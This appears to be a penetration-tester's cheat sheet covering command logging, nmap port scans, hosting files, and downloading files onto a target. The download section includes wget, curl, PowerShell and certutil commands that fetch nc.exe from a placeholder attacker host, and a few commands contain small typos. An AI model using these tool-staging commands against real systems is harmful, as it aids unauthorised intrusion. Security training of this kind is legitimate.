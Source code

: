 # Logging

## Linux
```
mkdir logs
for every command do `| tee <file>`

OR

use `script <file_name>`
use `less -rr script.log` to see the script output properly
```

## Windows
```
Start-Transcript
Stop-Transcript
```
- Transcript stored in Documents folder

# Port Scanning
```
nmap -p- -sC -sV -A -vvv oA nmap/tcp_all_port <ip>
sudo nmap --top-ports 1000 -sU -vvv -sC -sV -oA nmap/udp_top_1000 <ip>
sudo nmap -p- -sU -vvv -sC -sV -oA nmap/ucp_all_port <ip>
proxychains -p- -sT -vvv <ip>
```

# Sharing Files

## Hosting
```
smbserver.py share . -smb2support
python -m SimpleHTTPServer 80 (Python 2)
python -m http.server 80 (Python 3)
FTP
Website
```

## Downloading
```
wget http://<ip>/nc.exe -o nc.exe  
curl http://<ip>/nc.exe -o nc.exe  
powershell (New-Object System.Net.WebClient).DownloadFile("https://<ip>/test.txt", "test.txt")
certutil -urlcache -f http://<ip>/file file
```
